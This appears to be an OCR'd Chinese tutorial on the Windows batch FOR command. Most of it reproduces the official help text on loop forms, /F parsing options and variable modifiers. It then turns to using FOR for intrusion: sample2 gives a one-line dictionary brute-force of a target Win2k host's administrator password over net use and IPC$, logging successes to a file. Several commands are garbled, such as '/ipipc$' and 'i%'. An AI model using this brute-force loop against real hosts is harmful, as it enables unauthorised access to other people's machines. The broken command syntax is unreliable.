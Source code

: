 FOR /D %variable IN (set) DO command [command-parameters]
如果集中包含通配符，则指定与目录名匹配，而不与文件名匹配。
FOR /R [drive:]path] %variable IN (set) DO command [command-
检查以 [drive:]path 为根的目录树，指向每个目录中的FOR 语句。如果在 /R 后没有指定目录，则使用当前目录。如果集仅为一个单点(.)字符，则枚举该目录树。
FOR /L %variable IN (start,step,end) DO command [command-para
该集表示以增量形式从开始到结束的一个数字序列。
因此，(1,1,5) 将产生序列 1 2 3 4 5，(5,-1,1) 将产生
序列 (5 4 3 2 1)。
FOR /F ["options"] %variable IN (file-set) DO command
FOR /F ["options"] %variable IN ("string") DO command
FOR /F ["options"] %variable IN (''command'') DO command
或者，如果有 usebackq 选项:
FOR /F ["options"] %variable IN (file-set) DO command
FOR /F ["options"] %variable IN ("string") DO command
FOR /F ["options"] %variable IN (''command'') DO command
filenameset 为一个或多个文件名。继续到 filenameset 中的下一个文件之前，每份文件都已被打开、读取并经过处理。处理包括读取文件，将其分成一行行的文字，然后将每行解析成零或更多的符号。然后用已找到的符 号字符串变量值调用 For 循环。以默认方式，/F 通过每个文件的每一行中分开的第一个空白符号。跳过空白行。您可通过指定可选 "options"参数替代默认解析操作。这个带引号的字符串包括一个或多个指定不同解析选项的关键字。这些关键字为:
eol=c - 指一个行注释字符的结尾(就一个)
skip=n - 指在文件开始时忽略的行数。
delims=xxx - 指分隔符集。这个替换了空格和跳格键的默认分隔符集。
tokens=x,y,m-n - 指每行的哪一个符号被传递到每个迭代的 for 本身。这会导致额外变量名称的格式为一个范围。通过 nth 符号指定 m符号字符串中的最后一个字符星号，那么额外的变量将在最后一个符号解析之分配并接受行的保留文本。
usebackq - 指定新语法已在下类情况中使用:在作为命令执行一个后引号的字符串并且引号字符为文字字符串命令并允许在 fi中使用双引号扩起文件名称。
sample1:
FOR /F "eol=; tokens=2,3* delims=, " %i in (myfile.txt) do command
会分析 myfile.txt 中的每一行，忽略以分号打头的那些行，将每行中的第二个和第三个符号传递给 for 程序体；用逗号和/或空格定界符号。请注意，这个 for 程序体的语句引用 %i 来取得第二个符号，引用 %j 来取得第三个符号，引用 %k来取得第三个符号后的所有剩余符号。对于带有空格的文件名，您需要用双引号将文件名括起来。为了用这种方式来使用双引号，您还需要使用 usebackq 选项，否则，双引号会被理解成是用作定义某个要分析的字符串的。
%i 专门在 for 语句中得到说明，%j 和 %k 是通过tokens= 选项专门得到说明的。您可以通过 tokens= 一行指定最多 26 个符号，只要不试图说明一个高于字母 ''z'' 或''Z'' 的变量。请记住，FOR 变量是单一字母、分大小写和全局的；同时不能有 52 个以上都在使用中。
您还可以在相邻字符串上使用 FOR /F 分析逻辑；方法是，用单引号将括号之间的 filenameset 括起来。这样，该字符串会被当作一个文件中的一个单一输入行。
最后，您可以用 FOR /F 命令来分析命令的输出。方法是，将括号之间的 filenameset 变成一个反括字符串。该字符串会被当作命令行，传递到一个子 CMD.EXE，其输出会被抓进内存，并被当作文件分析。因此，以下例子:
FOR /F "usebackq delims==" %i IN (`set`) DO @echo %i
会枚举当前环境中的环境变量名称。
另外，FOR 变量参照的替换已被增强。您现在可以使用下列选项语法:
~I - 删除任何引号(")，扩充 %I
%~fI - 将 %I 扩充到一个完全合格的路径名
%~dI - 仅将 %I 扩充到一个驱动器号
%~pI - 仅将 %I 扩充到一个路径
%~nI - 仅将 %I 扩充到一个文件名
%~xI - 仅将 %I 扩充到一个文件扩展名
%~sI - 扩充的路径只含有短名
%~aI - 将 %I 扩充到文件的文件属性
%~tI - 将 %I 扩充到文件的日期/时间
%~zI - 将 %I 扩充到文件的大小
%~$PATH:I - 查找列在路径环境变量的目录，并将 %I 扩充到找到的第一个完全合格的名称。如果环境变量未被定义，或者没有找到文件，此组合键会扩充空字符串
可以组合修饰符来得到多重结果:
%~dpI - 仅将 %I 扩充到一个驱动器号和路径
%~nxI - 仅将 %I 扩充到一个文件名和扩展名
%~fsI - 仅将 %I 扩充到一个带有短名的完整路径名
%~dp$PATH:i - 查找列在路径环境变量的目录，并将 %I 扩充到找到的第一个驱动器号和路径。
%~ftzaI - 将 %I 扩充到类似输出线路的 DIR
在以上例子中，%I 和 PATH 可用其他有效数值代替。%~ 语法用一个有效的 FOR 变量名终止。选取类似 %I 的大写变量名比较易读，而且避免与不分大小写的组合键混淆。
以上是MS的官方帮助，下面我们举几个例子来具体说明一下For命令在入侵中的用途。
sample2：
利用For命令来实现对一台目标Win2k主机的暴力密码破解。
我们用net use /ipipc$ "password" /u:"administrator"来尝试这和目标主机进行连接，当成功时记下密码。
最主要的命令是一条：for /f i% in (dict.txt) do net use /ipipc$ "i%" /u:"administrator"
用i%来表示admin的密码，在dict.txt中这个取i%的值用net use 命令来连接。然后将程序运行结果传递给find命令－－
for /f i%% in (dict.txt) do net use /ipipc$ "i%%" /u:"administrator"|find ":命令成功完成">>D:ok.txt ，这样就ko了。
sample3：